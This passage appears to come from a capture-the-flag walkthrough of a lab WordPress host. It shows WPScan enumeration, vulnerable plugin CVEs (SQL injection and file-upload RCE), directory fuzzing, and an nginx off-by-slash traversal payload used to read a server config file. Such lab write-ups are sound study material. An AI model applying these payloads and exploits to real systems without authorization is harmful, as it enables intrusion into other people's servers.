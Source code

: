 ```console

[+] k2
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Second, the `Modern Events Calendar Lite 5.16.2` plugin is installed.

```console
[+] modern-events-calendar-lite
 | Location: http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'
```

Looking for vulnerabilities in the plugin, we come across two prominent ones:

- **CVE-2021-24946**: An unauthenticated blind SQL injection vulnerability. While the vulnerability is present and we are able to exploit it, unfortunately, we don't retrieve anything useful from the database, nor can we crack the hashes for the users.

- **CVE-2021-24145**: An authenticated **RCE** vulnerability due to arbitrary file upload. The plugin fails to properly check the imported files, allowing us to upload a `PHP` file using the `text/csv` content type. While we are not authenticated at this point, if we manage to find any credentials for `WordPress`, we can return to this.

### Nginx Off-By-Slash

Fuzzing the `/wordpress/` endpoint for directories, we discover an interesting directory: `/wordpress/images/`.

```console
$ ffuf -u 'http://mountaineer.thm/wordpress/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -t 100 -ic -fs 162
...
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 113ms]
```
{: .wrap }

Checking this endpoint for the `nginx off-by-slash` vulnerability, we are able to read files from the server using the payload `/wordpress/images../`.

![Web 80 Nginx OBS](web_80_nginx_obs.webp){: width="1400" height="800" }

Using this to read the `/etc/nginx/sites-available/default` file, we discover a vhost: `adminroundcubemail.mountaineer.thm`.
